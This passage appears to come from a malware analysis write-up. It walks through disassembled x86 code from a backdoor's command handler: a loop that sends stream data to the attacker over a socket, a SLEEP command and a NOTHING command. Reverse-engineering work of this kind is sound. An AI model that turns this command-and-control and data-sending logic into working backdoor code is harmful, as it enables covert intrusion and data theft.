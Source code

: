 Within this first loop is a second one, used to send to the attacker data read from the stream:

```
.text:004017E9 continue_sending:
.text:004017E9      push    0               ; flags
.text:004017EB      mov     edx, [ebp+len]
.text:004017EE      push    edx             ; len
.text:004017EF      lea     eax, [ebp+buf]
.text:004017F5      push    eax             ; buf
.text:004017F6      mov     ecx, [ebp+s]
.text:004017F9      push    ecx             ; s
.text:004017FA      call    ds:send
.text:00401800      mov     [ebp+current_sent], eax
.text:00401806      cmp     [ebp+current_sent], 0FFFFFFFFh
.text:0040180D      jnz     short update_counter
[...]
.text:00401822 update_counter:
.text:00401822      mov     eax, [ebp+total_sent]
.text:00401828      add     eax, [ebp+current_sent]
.text:0040182E      mov     [ebp+total_sent], eax
.text:00401834      mov     ecx, [ebp+total_sent]
.text:0040183A      cmp     ecx, [ebp+len]
.text:0040183D      jb      short continue_sending
.text:0040183F      cmp     [ebp+len], 0    ; data read from the stream
.text:00401843      ja      continue_reading
```


#### Command SLEEP

The expected format of the command is `SLEEP SleepTime`:

```
.text:004020A5      mov     eax, [ebp+token_sleep]  ; token[1]
.text:004020AB      push    eax                     ; char *
.text:004020AC      call    _atoi                   ; ascii to integer
.text:004020B1      add     esp, 4
.text:004020B4      mov     [ebp+sleep_time], eax   ; in seconds
.text:004020BA      mov     ecx, [ebp+sleep_time]
.text:004020C0      imul    ecx, 1000
.text:004020C6      push    ecx                     ; dwMilliseconds
.text:004020C7      call    ds:Sleep
```

#### Command NOTHING

If the received command doesn't match any of the ones presented above, we reach a code block comparing it with the string "NOTHING". The result of the string comparison is not taken into account, the dispatch function just exits.

---
EOF
